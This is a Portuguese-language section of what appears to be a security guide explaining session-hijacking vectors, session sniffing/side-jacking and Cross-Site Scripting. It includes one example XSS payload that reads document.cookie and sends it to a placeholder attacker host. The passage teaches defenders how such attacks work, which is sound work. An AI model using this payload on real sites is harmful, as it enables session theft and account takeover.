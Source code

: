 ## Seção 3: Vetores de Ataque Primários para Comprometimento de Sessão

A fase de comprometimento do ID da sessão é o cerne do ataque, e os atacantes dispõem de várias técnicas para a executar. Estas técnicas evoluíram em resposta às melhorias nas práticas de segurança *web*.

### 3.1 Interceção de Sessão (*Session Sniffing* / *Side-jacking*)

A interceção de sessão, ou *session sniffing*, é uma das formas mais antigas de roubo de *tokens*. Envolve o uso de ferramentas de monitorização de rede, conhecidas como "*sniffers*", para capturar pacotes de dados à medida que são transmitidos por uma rede. Se o tráfego da aplicação *web* não for encriptado, o *token* de sessão, que é enviado em texto simples dentro dos *cookies* HTTP, pode ser facilmente lido pelo atacante.

Este ataque é particularmente eficaz em redes Wi-Fi públicas ou outras redes não seguras, onde um atacante pode facilmente monitorizar o tráfego de outros utilizadores na mesma rede. O termo *side-jacking* refere-se especificamente à prática de roubar o *cookie* de sessão após o utilizador ter concluído um processo de *login* encriptado. Muitas aplicações *web* mais antigas encriptavam a página de *login*, mas depois revertiam para HTTP não encriptado para o resto da sessão, deixando o *cookie* de sessão vulnerável à interceção. A adoção generalizada de HTTPS (SSL/TLS) para todo o tráfego de um site tornou este tipo de ataque muito menos viável em redes públicas, forçando os atacantes a procurarem vulnerabilidades na própria aplicação.

### 3.2 *Cross-Site Scripting* (*XSS*): A Porta de Entrada Moderna para o Sequestro

Com a encriptação do tráfego de rede a tornar-se a norma, os atacantes deslocaram o seu foco para a camada de aplicação, e o *Cross-Site Scripting* (*XSS*) emergiu como o principal vetor para o roubo de *tokens* de sessão. Uma vulnerabilidade de *XSS* permite que um atacante injete *scripts* maliciosos, tipicamente JavaScript, em *websites* confiáveis.

O mecanismo de ataque é direto e eficaz:

- O atacante identifica uma vulnerabilidade de *XSS* numa aplicação *web* (por exemplo, num campo de comentários ou num parâmetro de URL que é refletido na página).
- O atacante cria um *payload* de JavaScript concebido para roubar o *cookie* de sessão do utilizador. Um exemplo comum de *payload* é:

```html
<script>new Image().src="http://attacker-controlled-site.com/steal?cookie=" + document.cookie;</script>
```

- Este *script*, quando executado no navegador da vítima, acede ao `document.cookie`, que contém o *token* de sessão, e envia-o para um servidor controlado pelo atacante como um parâmetro numa requisição de imagem.
- A vítima é levada a executar o *script*, quer visitando uma página onde o *script* está armazenado (*Stored XSS*), quer clicando num link malicioso que contém o *script* (*Reflected XSS*).
- Como o *script* é executado no contexto do domínio do site vulnerável, ele tem acesso aos *cookies* associados a esse domínio, contornando a política de mesma origem (*Same-Origin Policy*) do navegador.

